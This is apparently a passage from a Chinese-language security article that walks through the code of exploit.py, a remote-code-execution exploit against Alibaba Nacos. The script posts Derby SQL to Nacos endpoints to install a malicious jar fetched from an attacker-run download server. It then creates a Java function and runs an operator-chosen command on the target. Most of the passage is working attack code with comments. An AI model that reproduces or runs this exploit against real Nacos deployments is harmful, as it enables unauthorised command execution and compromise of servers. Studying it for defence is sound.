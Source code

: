 ```

```  
  
**代码分析---exploit.py **  
  
exploit.py会连接Nacos,然后请求Nacos的参数中注入了连接service.py的IP、端口，以及需要RCE的指令。请求到达nacos之后，利用deby数据库的漏洞，恶意请求service.py服务的接口，加载jar包内容。然后再输入RCE指令给jar包，运行这个命令。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v6WNrvHHS0yI7WD0Kc7HMVTZ8ttTU6aBtly3UcmWznRhLONKN5hT2MzjYDCl7AOCRd5qTuq9OK4DQ/640?wx_fmt=png&from=appmsg "")  
```
# 按装订区域中的绿色按钮以运行脚本。
def exploit(target, command, service, args):
#构建用于发送请求的URL
    removal_url = urljoin(target, '/nacos/v1/cs/ops/data/removal')
    derby_url = urljoin(target, '/nacos/v1/cs/ops/derby')
    print("正在进行碰撞,请耐心等待!!")
#循环----直到成功利用漏洞
    for i in range(0, sys.maxsize):
#id：生成一个随机字符串，用于标识SQL注入的payload
        id = ''.join(random.sample('abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ', 8))
#post_sql：构建SQL注入的payload，安装一个恶意的Java函数
        post_sql = """CALL sqlj.install_jar('{service}', 'NACOS.{id}', 0)\n
        CALL SYSCS_UTIL.SYSCS_SET_DATABASE_PROPERTY('derby.database.classpath','NACOS.{id}')\n
        CREATE FUNCTION S_EXAMPLE_{id}( PARAM VARCHAR(2000)) RETURNS VARCHAR(2000) PARAMETER STYLE JAVA NO SQL LANGUAGE JAVA EXTERNAL NAME 'test.poc.Example.exec'\n""".format(id=id, service=service);
#option_sql：构建SQL语句，利用恶意函数执行命令
        option_sql = "UPDATE ROLES SET ROLE='1' WHERE ROLE='1' AND ROLE=S_EXAMPLE_{id}('{cmd}')\n".format(id=id, cmd=command);
#get_sql：构建SQL查询，执行命令并获取结果                                                                                 get_sql = "select * from (select count(*) as b, S_EXAMPLE_{id}('{cmd}') as a from config_info) tmp /*ROWS FETCH NEXT*/".format(id=id, cmd=command);
        # get_sql = "select * from users /*ROWS FETCH NEXT*/".format(id=id,cmd=command);
        files = {'file': post_sql}
#requests.post：发送POST请求，上传恶意SQL
#requests.get：发送GET请求，执行命令并获取结果。
        post_resp = requests.post(url=removal_url, files=files, verify=False, headers=header, timeout=5)
        post_json = post_resp.json()
        if args.url:
            print(post_json)
        if (post_json['code'] == 404 or post_json['code'] == 403) and "File" not in post_json['message']:
            print(Fore.YELLOW + f"[-] {target} 可能不存在Nacos_Rce漏洞\n" + Fore.RESET)
            break
        if post_json.get('message', None) is None and post_json.get('data', None) is not None:
            print(post_resp.text)
            get_resp = requests.get(url=derby_url, params={'sql': get_sql}, verify=False, headers=header,
                                    timeout=5)
            print(Fore.RED + f"\n[+] {target} 存在Nacos_Rce漏洞，执行命令：{command}" + Fore.RESET)
            print(Fore.RED + f"[+] 返回的结果如下: {get_resp.text}" + Fore.RESET)
            break


if __name__ == '__main__':
#service：构建下载恶意Jar文件的URL。
    service = 'http://{host}:{port}/download'.format(host=config.server_host, port=config.server_port)
#target 和 command：从用户输入获取目标URL和要执行的命令。
    target = 'http://127.0.0.1:8848'
    command = 'calc'
    target = input('请输入目录URL，默认：http://127.0.0.1:8848：') or target
    command = input('请输入命令，默认：calc：') or command
#exploit：调用漏洞利用函数。
```